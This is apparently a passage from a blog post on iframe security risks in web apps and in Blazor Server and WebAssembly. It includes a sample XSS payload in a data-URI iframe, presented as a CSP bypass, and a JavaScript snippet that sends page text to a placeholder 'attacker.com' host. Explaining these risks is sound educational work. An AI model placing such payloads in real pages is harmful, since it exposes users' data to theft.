 ### 4. Content Security Policy (CSP) bypass

Poorly configured CSP policies can be bypassed through iframes, allowing malicious scripts to execute:

```html
<!-- CSP: script-src 'self' -->
<!-- This bypasses CSP if iframe sources aren't restricted -->
<iframe src="data:text/html,<script>alert('XSS')</script>"></iframe>
```

### 5. Data exfiltration

Iframes can be used to exfiltrate sensitive data through various techniques:

```javascript
// Iframe reads sensitive data and sends it elsewhere
var sensitiveData = document.body.innerText;
var img = new Image();
img.src = 'https://attacker.com/log?data=' + encodeURIComponent(sensitiveData);
```

Yet, the vast majority of iframes, are windows to public sites or URLs, don't require any user interaction or authentication. A small set of enterprise applications, do face this issue, and most probably always write their own implementation of a iframe wrapper in some way or form.

## Blazor and iframes: A match made in... complexity

Blazor Server and Blazor WebAssembly (WASM) both have unique considerations when working with iframes:

### Blazor Server challenges

**SignalR Connection Security**: Blazor Server maintains a persistent SignalR connection. Malicious iframes could potentially:
- Intercept SignalR messages
- Trigger unwanted server calls
- Consume server resources

**Server-Side state**: Since UI state lives on the server, iframe interactions could lead to:
- State corruption
- Unauthorized state access
- Memory leaks from unmanaged iframe lifecycles

### Blazor WASM challenges

**Client-Side vulnerabilities**: WASM applications run entirely in the browser, making them susceptible to:
- Client-side data theft
- Local storage manipulation
- Authentication token extraction

**Assembly inspection**: Unlike server-side code, WASM assemblies can be inspected, making security through obscurity impossible.
